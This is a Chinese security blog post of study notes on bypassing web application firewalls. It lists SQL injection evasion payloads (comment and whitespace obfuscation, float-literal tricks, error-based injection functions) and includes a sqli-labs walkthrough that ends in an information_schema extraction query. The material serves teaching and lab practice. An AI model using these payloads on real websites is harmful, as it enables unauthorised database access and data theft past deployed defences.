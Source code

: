```yaml
---
layout:       post
title:        "WAF绕过原理分析笔记"
subtitle:     "null"
date:         2020-10-01 14:55:43
author:       "NeptLiang"
header-img:   "img/home-bg.jpg"
header-mask:  0.3
catalog:      true
multilingual: true
tags:
    - Sec
    - WebSec
    - Bypass
---
```



# 0x00 前言

Null

---


# 0x01 白盒绕过

## 1. 分析代码

## 2. 绕过限制

1. **大小写变形**：`Or`，`OR`，`oR`，适用于正则没有`/i`
2. **等价替换**：`and`->`&&`, `or`->`||`
3. **双写**：`or`->`oorr`

---


# 0x02 黑盒绕过

参考[seceditor@MottoIN《WAF攻防研究之四个层次Bypass WAF》（mottoin.com/detail/359.html）](http://www.mottoin.com/detail/359.html)

## 一、架构层绕过WAF

1. 寻找**源站**（原始IP地址）->针对云WAF
2. 利用**同网段主机**进行渗透->绕过WAF防护区域
3. 利用**边界漏洞**（如利用SSRF）->绕过WAF防护区域

## 二、资源限制角度绕过WAF

POST**大BODY**（WAF可能会为了性能选择性忽略大数据包）

## 三、协议层面绕过WAF检测

### 1. 协议未覆盖

* 请求方式变换：GET->POST
* `Content-Type: application/x-www-form-urlencoded`
    -> `multipart/form-data`

### 2. 参数污染

检测：`?id=1&id=2`，WAF可能只检测第一个不检测第二个，中间件可能用第二个覆盖第一个

## 四、规则层面的绕过（绕过WAF规则）

### 1. SQL注释符绕过
1. 
    ```sql
    union/**/select
    ```
2. 
    ```sql
    union/*aaaa%0xbbs*/select
    ```
3. 
    ```sql
    union/*aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa*/select  /*（中间插入超长注释）*/
    ```
4. 内联注释：
    ```sql
    /*!xxx*/
    ```

### 2. 空白符绕过

1. MySQL**空白符**：`%09`, `%0A`, `%0B`, `%0D`, `%20`, `%0C`, `%A0`, `/*xxx*/`

2. 正则的**空白符**：`%09`, `%0A`, `%0B`, `%0D`, `%20`
* 例1：
    ```sql
    union%250Cselect
    ```
    （%25即“%”，“%250C”即"%0C")
* 例2：
    ```sql
    union%25A0select
    ```

3. **函数分割**符号  
    1. ```sql
        concat%2520(
        ```  
    2. ```sql
        concat/**/(
        ```  
    3. ```sql
        concat%250C(
        ```  
    4. ```sql
        concat%25a0(
        ```
4. **浮点数**词法解析（WAF可能对int/字符型+union select进行匹配，则用浮点型+union select）
    1. ```sql
        where id=8E0union select
        ```
    2. ```sql
        where id=8.0union select
        ```
    3. ```sql
        where id=\Nunion select
        ```
5. 利用**error-based**进行SQL注入（Error-based SQL注入函数非常容易被忽略）
    1. ```sql
        extractvalue(1,concat(0x5c,md5(3)));
        ```
    2. ```sql
        updatexml(1,concat(0x5d,md5(3),1);
        ```
    3. ```sql
        GeometryCollection((select*from(select*from(select@@version)f)x))
        ```
    4. ```sql
        ploygon((select*from(select name_const(version(),1))x))
        ```
    5. ```sql
        linestring()
        ```
    6. ```sql
        multpoint()
        ```
    7. ```sql
        multilineString()
        ```
    8. ```sql
        multipolygon()
        ```
6. MySQL特殊语法
    ```sql
    select{x table_name}from{x information_schema.tables};
    ```

---


# Fuzz绕过WAF

## 例1：注释符绕过

先测试最基本的：
```sql
union/**/select
```
再测试中间引入特殊字：
```sql
union/*aaaa%0xbbs*/select
```
最后测试注释长度：
```sql
union/*aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa*/select
```
模式：
```sql
union/*something*/select
```

## 例2：sqli-labs题解

1. **检测**：参数加单引号报错
2. **Fuzz**: 把空格（`%20`）替换为`/**/`，然后用脚本或bp在注释中插随机特殊字符进行Fuzz，如数字`1`、字母`a`、`!`、`@`、`#`、`$`、`%`、`'`等，通过响应长度、payload是否符合语法、响应是否报错判断发现`/*%!%2f*/`可绕过该WAF
3. 把参数中的空格（`%20`）全部**替换**为`/*%!%2f*/`进行下一步测试
4. `order by`判断**字段数**为3个
5. `union select 1, 2, 3`，发现`2`和`3`出现在页面上，故这两个位置可回显结果
6. `union select 1, user(), 3`，发现又被拦截，可知可能是`user()`被匹配到，故改成`user/*%!%2f*/()`，查询成功
7. 
    ```sql
    union select 1, (select table_name from information_schema.tables where table_schema=database() limit 0, 1), 3-- 
    ```

---


*//End of Article*

**参考文献**：

* [seceditor@MottoIN《WAF攻防研究之四个层次Bypass WAF》（mottoin.com/detail/359.html）](http://www.mottoin.com/detail/359.html)

![公众号二维码](https://neptliang.github.io/img/Article/WeChatBlog.png)